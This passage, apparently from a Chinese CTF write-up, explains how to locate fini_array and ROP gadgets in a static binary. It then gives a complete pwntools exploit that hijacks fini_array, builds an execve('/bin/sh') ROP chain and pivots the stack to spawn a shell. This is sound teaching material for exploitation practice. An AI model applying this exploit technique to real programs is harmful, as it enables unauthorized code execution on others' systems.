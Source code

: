 依据规律知道三个 mov 依次是处理 \_\_libc_start_fini、\_\_libc_start_init、main 。从这里获取到关键参数： \_\_libc_start_fini、main 地址。

然后 gdb 调试，断点打在 \_\_libc_start_fini ，一直运行到 call 指令，rbp 存储的值就是 fini_array[0] 的地址 0x4b80b0 ：

![](https://mrskye.cn-gd.ufileos.com/img/2020-07-07-Fao8iqPT0I2CQDVU.png)

leave_ret 和 ret 通过 ROPgadget 直接能查到；rax、rdi、rsi、rdx 传参 gadget 也能找到，这几个 gadget 找那种只穿一个寄存器的：``pop rax;ret``。

### exp

```python
from pwn import *
context.log_level = 'debug'

p = process("./main")
elf = ELF("./main")

#hijack fini
libc_csu_fini = 0x0402CB0
main_addr = 0x0401C1D
fini_array = 0x4b80b0
esp = fini_array + 0x10
leave_ret = 0x0401cf3
ret = 0x0401016

#execve('/bin/sh',0,0)
rop_syscall = 0x46F745	
rop_pop_rax = 0x0000000000448fcc
rop_pop_rdx = 0x0000000000448415
rop_pop_rsi = 0x0000000000406f80
rop_pop_rdi = 0x0000000000401746
bin_sh_addr = 0x492895

def write(addr,data):
	p.sendlineafter('addr:',p64(addr))
	p.sendafter('data:',data)

# hijack fini_array
gdb.attach(p,'b *0x0402CB0')
write(fini_array,p64(libc_csu_fini) + p64(main_addr))

# rop chain
write(esp,p64(rop_pop_rax))
write(esp+8,p64(0x3b))
write(esp+16,p64(rop_pop_rdi))
write(esp+24,p64(bin_sh_addr))
write(esp+32,p64(rop_pop_rdx))
write(esp+40,p64(0))
write(esp+48,p64(rop_pop_rsi))
write(esp+56,p64(0))
write(esp+64,p64(rop_syscall))

# stack pivoting
#gdb.attach(p)
write(fini_array,p64(leave_ret) + p64(ret))
p.interactive()
```
